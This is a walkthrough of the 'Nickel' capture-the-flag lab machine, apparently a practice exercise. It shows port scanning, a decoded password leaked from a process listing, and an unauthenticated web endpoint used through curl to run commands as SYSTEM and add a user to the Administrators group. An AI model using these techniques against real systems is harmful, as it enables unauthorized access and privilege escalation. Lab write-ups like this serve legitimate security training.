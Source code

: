 # Nickel

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.240.99     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:39 +08
Nmap scan report for 192.168.240.99
Host is up (0.17s latency).
Not shown: 65518 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8089/tcp  open  unknown
33333/tcp open  dgi-serv
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

FTP doesn't accept anonymous logins and RDP is open for this machine.&#x20;

### Web Enumeration --> User Creds

Port 80 was weird:

<figure><img src="../../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

Port 8089 was slightly weirder:&#x20;

<figure><img src="../../../.gitbook/assets/image (729).png" alt=""><figcaption></figcaption></figure>

Clicking on any of these would send requests to an IP address on port 33333:

<figure><img src="../../../.gitbook/assets/image (735).png" alt=""><figcaption></figcaption></figure>

Meanwhile on port 33333, we needed a token of some sorts:

<figure><img src="../../../.gitbook/assets/image (712).png" alt=""><figcaption></figcaption></figure>

And this is all the information we have. I experimented with sending POST requests instead of GET requests, and it actually returned something from port 33333.&#x20;

<figure><img src="../../../.gitbook/assets/image (737).png" alt=""><figcaption></figcaption></figure>

This was different from the Not Found errors. I changed around the directory it sent requests to, and the `list-running-procs` returned something interesting:

<figure><img src="../../../.gitbook/assets/image (734).png" alt=""><figcaption></figcaption></figure>

If we scroll down, we can see this:

```
name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh
              
$ echo 'Tm93aXNlU2xvb3BUaGVvcnkxMzkK' | base64 -d                                
NowiseSloopTheory139
```

This was a password for a user `ariah`, which works:

<figure><img src="../../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### FTP PDF --> Admin Shell

There was a `C:\ftp` directory that looked interesting:

```
 Directory of C:\ftp

09/01/2020  12:38 PM    <DIR>          .
09/01/2020  12:38 PM    <DIR>          ..
09/01/2020  11:02 AM            46,235 Infrastructure.pdf
```

We can transfer this back to our machine via `smbserver.py` and then view it.

<figure><img src="../../../.gitbook/assets/image (727).png" alt=""><figcaption></figcaption></figure>

There was a temporary command point, and I enumerated it from the machine:

```
ariah@NICKEL C:\ftp>curl http://nickel/?whoami
<!doctype html><html><body>dev-api started at 2023-02-17T09:16:22

        <pre>nt authority\system
</pre>
</body></html>
```

It seems that we have a SYSTEM shell with this command endpoint. What we can do is just add `ariah` to the Administrators group.&#x20;

```
ariah@NICKEL C:\ftp>curl http://nickel/?net%20localgroup%20administrators%20ariah%20/add     
<!doctype html><html><body>dev-api started at 2023-02-17T09:16:22

        <pre>The command completed successfully.

</pre>
</body></html>

ariah@NICKEL C:\ftp>net user ariah
User name                    ariah
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/1/2020 12:38:26 PM
Password expires             Never
Password changeable          9/1/2020 12:38:26 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/6/2023 11:56:18 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

Then, we can relogin and view the flag:

<figure><img src="../../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>

Rooted!
